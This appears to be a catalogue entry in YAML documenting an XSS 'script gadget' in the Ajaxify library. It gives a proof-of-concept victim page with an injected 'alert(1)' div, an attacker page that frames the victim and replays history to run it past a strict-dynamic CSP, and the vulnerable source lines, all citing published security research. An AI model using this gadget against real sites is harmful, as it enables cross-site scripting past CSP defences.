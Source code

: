 ```yaml
---
description: Ajaxify your entire website instantly with this simple drop-in script using the HTML5 History API with [History.js](https://github.com/browserstate/history.js) and [jQuery ScrollTo](https://github.com/flesler/jquery-scrollTo).
github: browserstate/ajaxify
gadgets:
  Latest:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - id-attr
      - class-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [Ajaxify](https://github.com/browserstate/ajaxify) library converts all `document-script` elements to a `<script>` elements.
        code: |
          <!-- victim website -->
          <html>
          <head>
            <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
            <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery-scrollTo/2.1.3/jquery.scrollTo.min.js"></script>
            <script src="https://browserstate.github.io/history.js/scripts/bundled/html4+html5/jquery.history.js"></script>
            <script src="https://rawgithub.com/browserstate/ajaxify/master/ajaxify-html5.js"></script>
          </head>
          <body>

          <!-- user input -->
          <div id="content">
            <div class="document-script">alert(1)</div>
          </div>

          </body>
          </html>

          <!-- attacker website -->
          <iframe src="http://victim/"></iframe>

          <script>
            var frame = document.querySelector("iframe");
            var url = frame.src;
            setTimeout(function() { frame.src = frame.src + "#foo" }, 1000);
            setTimeout(function() { frame.src = frame.src.substring(0, frame.src.length -4) }, 2000);
            setTimeout(function() { history.back() }, 3000);
            setTimeout(function() { history.back() }, 4000);
          </script>
        preview: false
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/browserstate/ajaxify/blob/f086e25d691f0a2da39427369063c4324c134d7d/ajaxify-html5.js#L129">https://github.com/browserstate/ajaxify/blob/f086e25d691f0a2da39427369063c4324c134d7d/ajaxify-html5.js#L129</a>

      ```javascript
      $scripts = $dataContent.find('.document-script');
      if ( $scripts.length ) {
        $scripts.detach();
      }

      // [...]

      $scripts.each(function(){
        var $script = $(this), scriptText = $script.text(), scriptNode = document.createElement('script');
        if ( $script.attr('src') ) {
          if ( !$script[0].async ) { scriptNode.async = false; }
          scriptNode.src = $script.attr('src');
        }
            scriptNode.appendChild(document.createTextNode(scriptText));
        contentNode.appendChild(scriptNode);
      });
      ```
    links:
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/ajaxify.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/ajaxify_exploit.php
---
```

